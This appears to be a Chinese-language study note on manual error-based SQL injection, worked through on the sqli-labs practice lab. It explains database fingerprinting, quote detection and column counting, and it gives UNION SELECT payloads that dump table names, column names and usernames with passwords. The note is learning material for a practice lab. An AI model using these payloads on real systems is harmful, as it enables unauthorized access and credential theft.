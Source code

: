 # sql手注学习->sqli_labs

## less1 to less4(Error Based Exploitation)

### 1.数据库指纹

我们可以通过分析错误信息找出数据库类型。

1. You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ”1” LIMIT 0,1′ at line 1`-->MySQL`
2. ORA-00933: SQL command not properly ended`-->Oracle`
3. Microsoft SQL Native Client error ‘80040e14’ Unclosed quotation mark after the character string`-->MSSQL`

### 2.首先传递错误的参数来得到数据库报错信息，并利用错误提示来进行sql注入，这就是`基于错误返回的SQL注入`

1. 加入单引号`'`或者`\`来判断输入数据的封装形式是'data',data,('data'),("data").
2. 在破坏查询找到提示信息后，可以利用注释来修复语法错误，eg.输入1'--+,1'#，修复了语法错误后我们可以利用另外一条select语句来查询获取数据库中的信息。利用union操作符可以使得两日奥select查询同时工作，但是，union语句使用时，两条select语句的列数必须相同。因此可以采用order by 1，2，3....直到提示错误信息。

### 用字符型注入进行举例 前后单引号封装

#### 为了让联合注入工作，首先要知道数据库中的表名,键入：

```sql
   id=-1' union select 1,table_name,3 from information_schema.tables where table_schema=database() --+
   '使用关键字group_concat一次性查询所有表名'
```

#### 查询已知表中的列名,键入：

```sql
 id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+
```

#### 查看数据库信息,同时查看所有用户名和对应的密码的方法是，键入：

```sql
id=-1' union select 1,group_concat(username),group_concat(password) from users --+
```